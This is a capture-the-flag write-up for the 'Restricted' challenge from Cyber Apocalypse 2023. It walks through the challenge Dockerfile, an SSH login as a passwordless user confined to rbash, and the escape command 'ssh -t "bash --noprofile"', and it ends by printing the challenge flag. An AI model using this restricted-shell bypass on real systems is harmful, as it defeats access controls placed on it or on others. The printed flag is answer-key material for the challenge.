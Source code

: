 # Cyber Apocalypse 2023

## Restricted

> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?
>
>  Author: N/A
>
> [`misc_restricted.zip`](misc_restricted.zip)

Tags: _misc_

## Solution
When connecting to the container we get:
```bash
$ nc 139.59.173.68 30569
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
test
Invalid SSH identification string.
```

So what going on. Luckily we have the Dockerfile so let's have a look:
```Dockerfile
FROM debian:latest

RUN apt update -y && apt upgrade -y && apt install openssh-server procps -y

RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted
RUN sed -i -re 's/^restricted:[^:]+:/restricted::/' /etc/passwd /etc/shadow

RUN mkdir /home/restricted/.bin
RUN chown -R restricted:restricted /home/restricted

RUN ln -s /usr/bin/top /home/restricted/.bin
RUN ln -s /usr/bin/uptime /home/restricted/.bin
RUN ln -s /usr/bin/ssh /home/restricted/.bin

COPY src/sshd_config /etc/ssh/sshd_config
COPY src/flag.txt /flag.txt
COPY src/bash_profile /home/restricted/.bash_profile

RUN chown root:root /home/restricted/.bash_profile
RUN chmod 755 /home/restricted/.bash_profile
RUN chmod 755 /flag.txt

RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

RUN ssh-keygen -A
RUN mkdir -p /run/sshd

EXPOSE 1337

ENTRYPOINT ["/usr/sbin/sshd", "-D", "-o", "ListenAddress=0.0.0.0", "-p", "1337"]
```

It's basically providing us with a restricted shell (rbash) but we also have a user `restricted` that can login without password.

```bash
$ ssh restricted@139.59.173.68 -p 30569
The authenticity of host '[139.59.173.68]:30569 ([139.59.173.68]:30569)' can't be established.
ED25519 key fingerprint is SHA256:cAQBhvlkikmVEqxHI4pvLx+e6a/azX7qRP0kSv+2Wak.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:141: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[139.59.173.68]:30569' (ED25519) to the list of known hosts.
Linux ng-restricted-luc8q-6759695bd5-56q8j 5.18.0-0.deb11.4-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.16-1~bpo11+1 (2022-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$ ls
-rbash: ls: command not found
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$ pwd
/home/restricted
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$
```

So yes, we are in. But there is not much that can be done. We have a couple of basic commands but thats about it. One thing we can do is to start the remote shall without loading the rc profile to get the flag.

```bash
$ ssh restricted@139.59.173.68 -p 30569 -t "bash --noprofile"
restricted@ng-restricted-luc8q-6759695bd5-56q8j:~$ cd /
restricted@ng-restricted-luc8q-6759695bd5-56q8j:/$ ls
bin  boot  dev  etc  flag_8dpsy  home  lib  lib64  media  memories.dump  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
restricted@ng-restricted-luc8q-6759695bd5-56q8j:/$ cat flag_8dpsy
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```